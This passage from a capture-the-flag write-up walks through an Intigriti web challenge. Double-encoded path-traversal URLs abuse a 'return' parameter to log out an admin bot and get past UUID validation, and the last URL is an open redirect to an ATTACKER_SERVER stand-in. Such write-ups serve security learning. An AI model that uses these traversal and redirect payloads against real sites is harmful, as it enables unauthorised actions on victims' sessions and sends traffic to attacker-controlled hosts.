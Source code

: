 Send it to the burp repeater, change the request method to GET, and change the `return` parameter to some other value, e.g., `/logout`, and you will see what happens! Here's an example: `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout?lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

This means we can send the following URL to the admin bot to log them out; `https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout?lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

#### URL Parsing Behaviour

If you tried another variation (using `&lol` instead of `?lol`)

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout&lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

You would notice it fails.

```
Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.
```

It's because the `note` parameter is validated to ensure it ends with a valid UUID. One way around this would be to [URL-encode](<https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=Jg>) the `&` (it will be URL-decoded after the validation anyway).

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=/logout%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

If we change the `?` after `contact` to an `&`, we'll see the same error. However, URL-encoding the `&` does not work this time.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact%26return=/logout%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

That's because the request to log out ends up looking like `/contact&return=/logout&lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

Clearly invalid; the first query key needs to preceded by a `?`

#### External Redirect

The only restriction on the `return` URL is that it must use the `http(s)` protocol. Let's try to spin up a server, e.g. [ngrok](https://ngrok.com), [requestbin](https://requestbin.com), [webhook](https://webhook.site) etc.

We visit the following URL, we should see an entry in our server logs.

`https://challenge-0824.intigriti.io/view?note=%252E%252E%252F%252E%252E%252F%252E%252E%252Fcontact?return=https://ATTACKER_SERVER/%26lol=4d31db30-ce76-405e-89b3-45d1067ddacc`

![](images/10.png)
